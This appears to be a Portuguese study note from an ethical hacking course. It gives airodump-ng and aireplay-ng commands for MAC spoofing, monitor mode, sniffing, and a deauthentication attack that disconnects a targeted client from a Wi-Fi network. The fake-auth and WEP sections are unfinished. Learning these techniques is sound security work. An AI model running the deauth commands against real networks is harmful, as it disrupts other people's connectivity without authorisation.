 
# [Ethical Hacking](https://www.udemy.com/course/learn-ethical-hacking-from-scratch)

> pacotes necessários
```
sudo apt install net-tools aircrack-ng reaver 
```

## change MAC 

```
ifconfig wlan1 down
ifconfig wlan1 hw ether 00:11:22:33:44:55
ifconfig wlan1 up
```

#

## Monitor Mode

```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up
```
#

## Sniffing (Airodump-ng)

|||
|-|-|
|BSSID|mac|
|PWR|força do sinal|
|Beacons|broadcast existencia da rede|
|#Data|total de dados trafegados|
|#/s|total de dados trafegados por segundo|
|CH|canal da rede|
|MB|velocidade máxima suportada|
|ENC|encriptação da rede|
|CIPHER|cifra da rede|
|AUTH|autenticação utilizada|
|ESSID|nome da rede|
|STATION|cliente conectado na rede|


### Todas as Redes
```
# interface de rede wifi precisa estar em modo monitor
airodump-ng wlan1
```

### Rede espefífica
```
# interface de rede wifi precisa estar em modo monitor
airodump-ng --channel [canal] --bssid [mac] --write [output file] wlan1
```
#

## Deauthentication Attack

Desautentica um cliente de uma dada rede, sem precisar estar conectado na mesma

1. Listar redes e escolher alvo
```
airodump-ng wlan1
```

2. [Sniffar o alvo](#rede-espefífica). Escolha o client alvo. **Deixe o terminal aberto**
```
airodump-ng --channel 1 --bssid 00:11:22:33:44:55 wlan1
```

3. Realizar deauth
```
aireplay-ng --deauth 10000000 -a [bssid rede] -c [mac client] wlan1
```
#

## Fake Authentication Attack

Gera pacotes de autenticação falsos a uma dada rede, para aumentar o número de pacotes trafegados. Utilizado em ataques como o [WEP cracking](#wep-cracking).


### TO-DO

#

## WEP cracking

### TO-DO

#